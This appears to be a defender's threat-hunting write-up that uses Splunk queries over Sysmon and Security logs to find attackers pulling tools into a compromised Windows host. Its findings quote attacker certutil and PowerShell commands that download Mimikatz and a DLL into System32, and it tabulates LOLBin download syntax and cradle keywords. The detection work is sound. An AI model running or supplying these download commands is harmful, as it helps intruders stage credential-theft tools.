# Hunting Command & Control: Ingress Tool Transfer

[← Back to main README](../README.md)

## Scenario

The attacker has a foothold, has established persistence, and has attempted to cover their tracks. This hunt targets **Ingress Tool Transfer (T1105)** — the moment an attacker pulls additional tools or payloads into the compromised environment to enable further post-exploitation activity.

I deliberately built this as three complementary hunting angles run in sequence, rather than one query:

1. **Process execution** — LOLBins used to initiate downloads (`certutil`, `powershell`, and others)
2. **File system events** — files actually written to disk as a result of the transfer (Sysmon EID 11)
3. **Network connection events** — the outbound connections made during transfer (Sysmon EID 3)

No single angle tells the complete story on its own, and this hunt proves that directly — by the end, I had a three-layer correlation table showing that no individual log source captured every transfer in this intrusion.

**Index:** `attack_scenario` | **Time range:** All Time

**Primary sources:**
- `XmlWinEventLog:Microsoft-Windows-Sysmon/Operational` → EID `1` (process creation), `3` (network), `11` (file create)
- `XmlWinEventLog:Security` → EID `4688` (process creation fallback)

**Hypothesis:** An attacker with an established foothold is transferring additional tools or payloads onto the compromised host to enable further post-exploitation activity.

## What I Was Hunting For

- LOLBin process executions with download-related command-line arguments (`certutil -urlcache`, `Invoke-WebRequest`, `IWR`, `net.WebClient`)
- Outbound HTTP/HTTPS connections initiated by processes that have no legitimate reason to be making network calls
- Executable and DLL files written to disk by unexpected processes (`certutil.exe`, `powershell.exe`, or the `System` process itself)
- File drops in known staging locations (`C:\Windows\`, `System32`, `SysWOW64`, `Temp`, `C:\Users\Public`, `ProgramData`)
- Correlation between network, process, and file-write events for the same activity

## Why I Approached This Across Three Layers

Attackers rarely rely on a single tool for an entire intrusion — once they've got a foothold, they pull in additional capabilities: credential dumpers, beacons, lateral movement tools. Every transfer leaves observable artifacts across three distinct layers:

**Process layer:** a binary or cmdlet has to execute to initiate the download.
**Network layer:** an outbound connection has to be made to retrieve the file.
**File system layer:** the received file has to be written to disk.

Hunting any single layer in isolation risks missing a transfer that happens to evade detection at that specific layer. A well-tuned Sysmon configuration might suppress a network event but still capture the corresponding file write. A process-only hunt finds the downloader but never confirms where the file actually landed. I wanted to demonstrate — not just assert — that correlating all three is the only complete approach, and this hunt's final findings table backs that up directly.

**Common LOLBins for ingress tool transfer:**

| Binary | Legitimate Purpose | Download Abuse Method |
|---|---|---|
| `certutil.exe` | Certificate management | `-urlcache -split -f <url> <outfile>` |
| `powershell.exe` | Scripting | `Invoke-WebRequest`, `IWR`, `net.WebClient.DownloadString` |
| `bitsadmin.exe` | Background transfer service | `/transfer /download /priority` |
| `curl.exe` | HTTP client (Win10+) | `curl <url> -o <outfile>` |
| `wget.exe` | HTTP client (some builds) | `wget <url> -O <outfile>` |
| `msiexec.exe` | Installer | `/i http://<url>` |
| `mshta.exe` | HTML Application Host | `mshta http://<url>/payload.hta` |
| `winget.exe` | Windows Package Manager | `winget install <package>` |

I built this list starting from the techniques I already knew were used in this intrusion, then deliberately expanded it using the **LOLBAS Project** (`lolbas-project.github.io`) — a community-maintained catalog of every documented living-off-the-land binary, including known download arguments and detection notes. I referenced it directly while building this hunt rather than relying purely on memory.




## Angle 1 — Process Execution (LOLBin Hunt)

### Step 1 — Hunt Known Download LOLBins with HTTP in Command Line

```sql
index=attack_scenario source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1
Image IN ("*\\powershell.exe", "*\\certutil.exe", "*\\bitsadmin.exe", "*\\curl.exe", "*\\wget.exe", "*\\msiexec.exe", "*\\mshta.exe", "*\\winget.exe")
CommandLine="*http*"
| table _time, Computer, User, Image, CommandLine, ParentImage, ParentCommandLine, IntegrityLevel
| sort _time
```



**What to look for:**
- LOLBins with `http` in the command line — built-in executables like `certutil.exe` have almost no legitimate reason to initiate HTTP downloads from an automated, system-level context
- Connections to a raw IP address rather than a domain name — legitimate software updates use domain names, so a LOLBin connecting directly to an IP in its URL is a strong signal on its own
- Internal IPs specifically (`192.168.x.x`) — finding one here means the attacker is hosting secondary payloads on infrastructure inside the network they've already compromised, not external internet infrastructure
- `IntegrityLevel: System` combined with `NT AUTHORITY\SYSTEM` — confirms this isn't user-initiated activity, it's post-exploitation action from an already-elevated foothold

### Findings

**Finding 1 — PowerShell payload staging**
Image:        C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe

CommandLine:  powershell -c Invoke-WebRequest -Uri http://192.168.7.250/dghelper.dll -OutFile C:\Windows\System32\dghelper.dll

ParentImage:  C:\Windows\SysWOW64\cmd.exe

User:         NT AUTHORITY\SYSTEM

**Finding 2 — Certutil payload staging**
Image:        C:\Windows\SysWOW64\certutil.exe

CommandLine:  certutil -urlcache -split -f http://192.168.7.250/mimikatz.exe C:\Windows\System32\mimi.exe

ParentImage:  C:\Windows\SysWOW64\cmd.exe

User:         NT AUTHORITY\SYSTEM

**Why these specific commands:**

`Invoke-WebRequest` is a standard built-in cmdlet frequently abused to fetch payloads. Downloading a `.dll` directly into `C:\Windows\System32\` here points specifically toward staging for DLL hijacking or persistence — and the attacker's `System` integrity level is what makes writing directly into that protected directory possible in the first place.

`certutil -urlcache -split -f` is certutil's documented download abuse syntax: `urlcache` accesses the URL cache, `split` saves the binary content, `f` forces overwrite. This sequence generates two HTTP requests to the source URL for a single download — a behavioral fingerprint specific to certutil's download mechanism that becomes useful later for network-layer correlation.

### Step 2 — Narrow to certutil with the URLCache Argument Specifically

```sql
index=attack_scenario source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1
Image="*\\certutil.exe"
CommandLine="*urlcache*"
| table _time, Computer, User, Image, CommandLine, ParentImage, ParentCommandLine, IntegrityLevel
| sort _time
```



I swapped the broad `http` filter for the `urlcache` argument specifically because it's a tighter signal — it reduces false positives from any legitimate certutil usage that happens to reference an HTTP path for actual certificate operations, since `urlcache` combined with certutil is an exclusively download-oriented argument with no other common use.

### Step 3 — Expand to Include PowerShell Download Cradles

```sql
index=attack_scenario source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1
(
    (Image="*\\certutil.exe" CommandLine="*urlcache*") OR
    (Image="*\\powershell.exe" (CommandLine="*Invoke-WebRequest*" OR CommandLine="*IWR*" OR CommandLine="*WebClient*"))
)
| table _time, Computer, User, Image, CommandLine, ParentImage, ParentCommandLine, IntegrityLevel
| sort _time
```



**Results — 2 events:**

| Process | Command Line | File Downloaded |
|---|---|---|
| `SysWOW64\certutil.exe` | `certutil -urlcache -split -f http://192.168.7.250/mimikatz.exe C:\Windows\System32\mimi.exe` | `mimi.exe` → `System32` |
| `SysWOW64\powershell.exe` | `powershell -c Invoke-WebRequest -Uri http://192.168.7.250/dghelper.dll -OutFile C:\Windows\System32\dghelper.dll` | `dghelper.dll` → `System32` |

**PowerShell download cradle keywords I included in this filter list:**

| Keyword | Method |
|---|---|
| `Invoke-WebRequest` | Full cmdlet name |
| `IWR` | Common alias |
| `WebClient` | `(New-Object Net.WebClient).DownloadString()` pattern |
| `DownloadFile` | WebClient method for file downloads |
| `DownloadString` | WebClient method for in-memory execution |
| `IEX` | Invoke-Expression — often paired with download cradles for fileless execution |

**An important caveat I kept in mind throughout:** `Invoke-WebRequest` and `WebClient` are completely legitimate PowerShell operations on their own. Automated tools, update scripts, and monitoring agents use them constantly. The actual signal here isn't the cmdlet — it's the context: `Invoke-WebRequest` targeting a raw internal IP address, from a SYSTEM-level process, spawned by a randomly-named service binary, is not a legitimate administrative task. Any one of those factors alone could be benign; together they aren't.

### Step 4 — Validate with Security EID 4688 (Fallback)

```sql
index=attack_scenario source="XmlWinEventLog:Security" EventCode=4688
(NewProcessName="*\\certutil.exe" OR NewProcessName="*\\powershell.exe")
CommandLine IN ("*urlcache*", "*Invoke-WebRequest*", "*IWR*", "*WebClient*")
| table _time, Computer, SubjectUserName, NewProcessName, CommandLine, ParentProcessName
| sort _time
```



Identical results via the Security log — confirming both telemetry sources capture the same two download events independently.

## Angle 2 — File System Events (Sysmon EID 11)

### Step 5 — Broad File Create Hunt in Suspicious Staging Locations

```sql
index=attack_scenario source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=11
TargetFilename IN ("*\\Users\\Public\\*", "*\\Temp\\*", "*\\ProgramData\\*")
| table _time, Computer, User, TargetFilename, Image, ProcessId
| sort _time
```



**Why these specific directories:**

| Path | Why Attackers Use It |
|---|---|
| `C:\Users\Public\` | World-writable, accessible to every user without elevation |
| `C:\Windows\Temp\` | Writable, frequently overlooked, infrequently cleaned |
| `C:\ProgramData\` | Application data directory, writable, less scrutinized |
| `C:\Temp\` | Common attacker staging directory, writable without UAC |

**What I found and how I triaged each one:**

- `cleanmgr.exe` (Disk Cleanup) extracting temporary provider `.dll` files into `%AppData%\Local\Temp\<UUID>\` — benign OS noise, safe to exclude going forward
- `taskhostw.exe` and `sdiagnhost.exe` (Windows Diagnostics) writing standard diagnostic `.ps1` scripts (`ts_`, `rs_`, `cl_` prefixes) and `.dll` files into `C:\Windows\Temp\SDiag\` — benign OS noise, filterable from broad hunts going forward
- `msedge.exe` (browser updates) unpacking update `.dll` files into `%AppData%\Local\Temp\msedge_chrome_unpacker...` — benign application behavior
- `rphcp.exe` (LimaCharlie EDR update agent) dropping `rphcp_upgrade.exe` into `C:\ProgramData\limacharlie\` — benign administrative action

**A deliberate decision I made here:** I'd write a strict exclusion for that exact `rphcp.exe`/path pair specifically, rather than whitelisting the entire `C:\ProgramData\limacharlie\` directory. Whitelisting an entire security-tool directory is exactly the kind of blind spot an attacker would want to find and hide inside.

### Step 6 — Hunt Executable Files Written to System Directories

```sql
index=attack_scenario source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=11
TargetFilename="*\\Windows\\*.exe"
| table _time, Computer, User, TargetFilename, Image, ProcessId
| sort _time
```



**Results — 3 events, all suspicious:**

| TargetFilename | Image | Significance |
|---|---|---|
| `C:\Windows\MyMVPfXG.exe` | `System` (PID 4) | PSExec service binary, dropped via SMB — the kernel itself wrote it |
| `C:\Windows\SysWOW64\...\INetCache\IE\mimikatz[1].exe` | `certutil.exe` | Certutil's temporary download cache file — an intermediate artifact |
| `C:\Windows\SysWOW64\mimi.exe` | `certutil.exe` | The final renamed output — the actual Mimikatz binary |

**On `System` (PID 4) writing an executable:** PID 4 is the Windows kernel process. It writes files when data arrives over network protocols like SMB — this is exactly how PSExec's service binary lands on disk in the first place. The kernel receives the SMB write request and creates the file directly, with no user-space process directly responsible for the write itself. That makes this specific drop harder to attribute at the process level on its own — confirming it as PSExec activity requires correlating against SMB share access events and service creation logs, not this file-write event in isolation.

**Why certutil generates two file entries at the same timestamp:** its `-urlcache` mechanism creates a temporary cache copy of the downloaded file in `INetCache` before writing the final renamed output to the path the attacker specified. Both writes land in the same second. This double-write is a certutil-specific fingerprint I can rely on independent of file name or destination.

### Step 7 — Hunt DLL Files Written by PowerShell

```sql
index=attack_scenario source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=11
Image="*\\Windows\\*\\powershell.exe"
| table _time, Computer, User, TargetFilename, Image, ProcessId
| sort _time
```



The wildcard `*\\Windows\\*\\powershell.exe` deliberately matches both the System32 64-bit path and the SysWOW64 32-bit path — without it, a path-specific filter misses the exact 32-bit variant this attacker used throughout the intrusion.

**Results — 6 events:**

| TargetFilename | Significance |
|---|---|
| `C:\Windows\SystemTemp\__PSScriptPolicyTest_*.ps1` (×5) | Legitimate — AppLocker policy evaluation scripts PowerShell generates automatically |
| `C:\Windows\SysWOW64\dghelper.dll` | **Malicious** — the attacker's DLL, dropped via Invoke-WebRequest |

**On the PSScriptPolicyTest files:** when AppLocker or Software Restriction Policies are active, PowerShell automatically generates temporary `.ps1` test files to evaluate which language mode it should run under (`FullLanguage` vs `ConstrainedLanguage`). These appear in `C:\Windows\SystemTemp\`, are entirely benign, and are recognizable on sight by the `__PSScriptPolicyTest_` prefix and random GUID suffix.

**The malicious entry:**
TargetFilename: C:\Windows\SysWOW64\dghelper.dll

Image:          C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe

ProcessId:      8272

PowerShell has no legitimate reason to write DLL files into `SysWOW64`. A DLL with a non-Microsoft name, dropped into a system directory, by a SYSTEM-level PowerShell process, is a high-confidence indicator of compromise on its own.

### Step 8 — Aggregate File Creates by Writing Process

```sql
index=attack_scenario source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=11
| stats count by Image
| sort -count
```



**What I was looking for in this aggregation:** `certutil.exe` appearing at all is immediately worth investigating in most environments. The `System` process writing executables is a strong tell for SMB-based file drops and PSExec-style activity. A non-trivial file count from `powershell.exe` means PowerShell is actively writing something to disk and warrants a closer look. Any process with a randomized name in this list is almost certainly malware.

## Angle 3 — Network Connection Events (Sysmon EID 3)

### Step 9 — Broad Network Connection Hunt

```sql
index=attack_scenario source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=3
| table _time, Computer, User, Image, SourceIp, SourcePort, DestinationIp, DestinationPort, Protocol
| sort _time
```



| Field | Description |
|---|---|
| `Image` | Process that initiated the connection |
| `DestinationIp` | Destination IP — the primary pivot for C2 identification |
| `DestinationPort` | Destination port — `80` for HTTP, `443` for HTTPS, anything unusual worth a closer look |
| `ProcessGuid` | Links this network event to the exact EID 1 process creation event |

**On EID 3 volume:** network connections are extremely frequent — active processes make them constantly, which is why a well-tuned Sysmon configuration heavily filters this event by excluding known-good binaries, trusted ports, and internal subnets. In this dataset, that tuning worked as intended: it filtered out the overwhelming majority of normal Windows noise and left exactly three events. Two of those three were the network-layer evidence for both malicious downloads identified in Angle 1 — confirming the configuration successfully captured the activity that actually mattered, rather than suppressing it along with the noise.

The timestamps on those two events align exactly with the corresponding EID 1 (process creation) and EID 11 (file create) events from earlier steps, confirming the network request is what directly produced the dropped payload in each case.

The third event was standard Windows DHCPv6 client activity — `svchost.exe` sending a request from port 546 to port 547 over UDP to a local multicast address. Entirely benign infrastructure traffic; if I were refining this Sysmon configuration further, I'd add an explicit exclusion for UDP ports 546/547 to filter this specific known-good noise going forward.

### Step 10 — Pivot from Network Event to Process Creation via ProcessGuid

**Step 10a — Extract the ProcessGuid from the network events:**

```sql
index=attack_scenario source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=3
| table _time, Computer, User, Image, DestinationIp, DestinationPort, ProcessGuid
| sort _time
```



**Step 10b — Correlate to EID 1 using those ProcessGuid values:**

```sql
index=attack_scenario source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1
ProcessGuid="{a09a5458-73cf-6a29-0902-000000001600}" OR ProcessGuid="{a09a5458-73fe-6a29-1802-000000001600}"
| table _time, Computer, User, Image, CommandLine, ParentImage, ParentCommandLine, IntegrityLevel
| sort _time
```



**Why ProcessGuid and not ProcessId:** PIDs are recycled by Windows — two completely different processes can carry the same PID at different points in time. `ProcessGuid` is unique per process instance for the entire lifetime of the Sysmon log, which makes it the only reliable field for this kind of cross-event correlation. Using PID for this without a tightly scoped time window risks confidently correlating to the wrong process entirely.

**What this confirmed:** the network connection event, the process creation event, and the file write event from Angle 2 all tie back to the same two processes — a complete ingress tool transfer chain confirmed through three fully independent telemetry sources.

## Pivoting on Discovered Indicators

Every confirmed IOC from this hunt becomes a pivot point to scope the broader intrusion.

### Pivot on Filename

```sql
index=attack_scenario "dghelper.dll" OR "mimikatz.exe" OR "mimi.exe"
```



Returns every event across every log source — Sysmon EIDs 1, 3, and 11, PowerShell Operational logs, Windows Security logs — that references any of these three filenames. This instantly surfaces every touchpoint, modification, or execution attempt across the entire dataset in a single query.

### Pivot on the C2 IP Address

```sql
index=attack_scenario "192.168.7.250"
```



Returns every event referencing the attacker's staging server across every host in the environment. If any host besides the original target had contacted this IP, that's the signal a single-host hunt needs to scale into a network-wide scoping exercise.

### Pivot on File Hash (Binary Integrity Verification)

```sql
index=attack_scenario source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1
Image IN ("*\\powershell.exe", "*\\certutil.exe")
| table Hashes, Image, CommandLine
```

